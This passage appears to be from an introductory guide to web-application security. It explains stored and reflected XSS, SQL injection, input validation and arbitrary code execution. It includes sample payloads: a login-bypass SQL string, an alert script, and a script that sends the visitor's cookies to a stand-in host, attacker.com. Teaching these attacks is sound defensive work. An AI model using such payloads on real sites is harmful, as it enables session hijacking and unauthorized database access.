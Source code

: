 **Example:**
```html
<!-- Stored XSS Example -->
<script>alert('This site is vulnerable to XSS');</script>
```

### SQL Injection

SQL Injection involves inserting or "injecting" malicious SQL queries via user input, which can manipulate or destroy database content.

**Example:**
```sql
-- SQL Injection Example
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = '';
```

## 3. Server and Client-Side Validation

Validation on both the server and client sides is essential for security and user experience. Client-side validation provides immediate feedback, while server-side validation is crucial for security.

**Example:**
```javascript
// Client-Side Validation Example
if (input.value.length < 5) {
    alert("Password must be at least 5 characters long.");
}
```

## 4. Cross-Site Scripting (XSS) Attacks

XSS attacks involve injecting malicious scripts into web pages viewed by other users, exploiting the trust a user has for a particular site.

**Example:**
```html
<!-- Reflective XSS Example -->
<script type="text/javascript">
    document.location='http://attacker.com/cookie_stealer.php?cookie=' + document.cookie;
</script>
```

## 5. Arbitrary Code Execution

Arbitrary code execution is a security flaw that allows an attacker to execute arbitrary code on the target system, often leading to full system control.

**Example:**
Imagine a vulnerable application that executes a file path without proper validation, allowing an attacker to execute arbitrary commands.

## 6. Reverse Engineering
